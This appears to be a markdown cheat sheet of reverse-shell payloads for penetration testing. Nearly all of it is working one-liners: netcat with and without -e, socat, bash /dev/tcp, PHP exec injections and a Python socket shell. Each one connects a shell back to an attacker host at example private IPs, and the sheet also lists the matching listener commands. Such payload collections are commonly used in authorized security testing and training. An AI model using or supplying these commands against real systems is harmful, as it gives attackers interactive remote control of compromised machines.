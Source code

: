 # Reverse Shells

Often during the course of an attack, you may gain RCE, and using it you may want to gain a shell. This is often achieved using a reverse shell

## Netcat

### Setting A Listener

    nc -nvlp [Port]

#### Params

    [Port]: The port to listen for a connection on 

#### Examples

    nc -nlvp 4444

### With -e

Newer versions have a nice option `-e` which allows binding of a process to an nc connection

    nc -e /bin/sh [IP] [Port]

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    nc -e /bin/sh 192.168.56.101 4444

### Without -e

Older versions of nc don't have the nice `-e` option, so it has to be done slightly differently

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [Port] >/tmp/f

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.102 4444 >/tmp/f

## Socat

### Setting A Listener

    socat file:`tty`,raw,echo=0 tcp-listen:[Port]

#### Params

    [Port]: The port to listen for a connection on 

#### Examples

    socat file:`tty`,raw,echo=0 tcp-listen:4444

### Simple Full tty

    socat tcp-connect:[IP]:[Port] exec:"bash -li",pty,stderr,setsid,sigint,sane

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    socat tcp-connect:192.168.54.65:6666 exec:"bash -li",pty,stderr,setsid,sigint,sane

## Bash

### Simple Bash Shell

    bash -i >& /dev/tcp/[IP]/[Port] 0>&1

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    bash -i >& /dev/tcp/192.168.56.101/4444 0>&1

### Alternative

    echo 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1' | bash

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    echo 'bash -i >& /dev/tcp/192.168.212.5/1234 0>&1' | bash

## PHP

### Command Line Based

    php -r '$sock=fsockopen("[IP]",[Port]);exec("/bin/sh -i <&3 >&3 2>&3");'
    
#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    php -r '$sock=fsockopen("192.168.54.98",8888);exec("/bin/sh -i <&3 >&3 2>&3");'

### Code Injection Based

The principle here can be used with any of the command line based reverse shells, in this example netcat is used, the php function can also be changed 

    <?php exec("nc -e /bin/bash [IP] [PORT]"); ?>

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    <?php exec("nc -e /bin/bash 192.168.56.101 4444"); ?>

    <?php system("bash -i >& /dev/tcp/192.168.56.101/4444 0>&1"); ?>

## Python

### Standard Reverse Shell

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.101",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

*Note: Some shells here were sourced or modified from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet*